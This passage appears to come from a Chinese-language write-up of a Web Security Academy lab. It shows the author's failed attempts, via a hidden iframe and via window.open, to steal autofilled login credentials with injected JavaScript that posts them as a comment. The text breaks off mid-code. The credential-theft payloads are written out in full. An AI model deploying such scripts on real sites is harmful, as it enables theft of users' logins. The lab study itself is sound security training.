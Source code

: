 4. 加個 `DOMContentLoaded` 試試看，拿到的還是 `{"username":"","password":""}`

```html
<script>
  function onloadIframe() {
    window.frames[0].addEventListener("DOMContentLoaded", () => {
      const username = window.frames[0].document.querySelector(
        "input[name='username']",
      ).value;
      const password = window.frames[0].document.querySelector(
        "input[name='password']",
      ).value;
      const csrf = document.querySelector("input[name='csrf']").value;
      const cookie = document.cookie;
      fetch(
        "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
        {
          headers: {
            "content-type": "application/x-www-form-urlencoded",
          },
          body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
          method: "POST",
          mode: "cors",
          credentials: "include",
        },
      );
    });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

5. 改成用 `window.open` 試試看，拿到的還是 `{"username":"","password":""}`

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const loginWindow = window.open(
      "https://0a34009004a74700e417261e007f005f.web-security-academy.net/login",
      "_blank",
    );
    loginWindow.addEventListener("DOMContentLoaded", () => {
      const username = loginWindow.document.querySelector(
        "input[name='username']",
      ).value;
      const password = loginWindow.document.querySelector(
        "input[name='password']",
      ).value;
      const csrf = document.querySelector("input[name='csrf']").value;
      const cookie = document.cookie;
      fetch(
        "https://0a34009004a74700e417261e007f005f.web-security-academy.net/post/comment",
        {
          headers: {
            "content-type": "application/x-www-form-urlencoded",
          },
          body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
          method: "POST",
          mode: "cors",
```